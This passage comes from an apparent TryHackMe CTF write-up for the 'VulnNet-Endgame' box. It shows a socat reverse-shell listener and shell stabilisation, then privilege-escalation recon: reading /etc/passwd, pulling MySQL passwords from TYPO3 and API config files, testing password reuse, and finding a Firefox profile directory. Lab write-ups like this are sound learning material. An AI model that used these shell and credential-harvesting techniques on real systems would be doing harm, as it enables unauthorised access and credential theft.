 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
[...]
www-data@vulnnet-endgame:/tmp$ stty rows 22 columns 121
www-data@vulnnet-endgame:/tmp$ export TERM=xterm-256color
```

# Privilege Escalation

## www-data to system

**Found user `system`:**
```
www-data@vulnnet-endgame:/tmp$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
system:x:1000:1000:system,,,:/home/system:/bin/bash
```

**Found MySQL credentials in /var/www/admin1/typo3conf/LocalConfiguration.php:**
```php
'dbname' => 'vn_admin',
'driver' => 'mysqli',
'host' => '127.0.0.1',
'password' => 'q2SbGTnSSWB95',
```

I tried password reuse for the user `system`, but no dice.

**Found another MySQL credentials in /var/www/api/index.php:**
```php
$servername = "localhost";
$username = "dbadmin";
$password = "q2SbGTnSSWB95";
```

Again. tried password reuse for use `system`, but no luck.

**Found another MySQL credentials again in /var/www/html/typo3-2/typo3conf/LocalConfiguration.php:**
```php
'dbname' => 'typo33',
'driver' => 'mysqli',
'host' => '127.0.0.1',
'password' => 'SuperSecret321',
```

Again, failed for password reuse.

In user `system`'s home directory, there is a `.mozilla` directory, **which holds firefox's history of it's user**:

```
www-data@vulnnet-endgame:/home/system$ ls -lah
[..]
drwxr-xr-x  4 system system 4.0K Jun 14 11:56 .mozilla
```
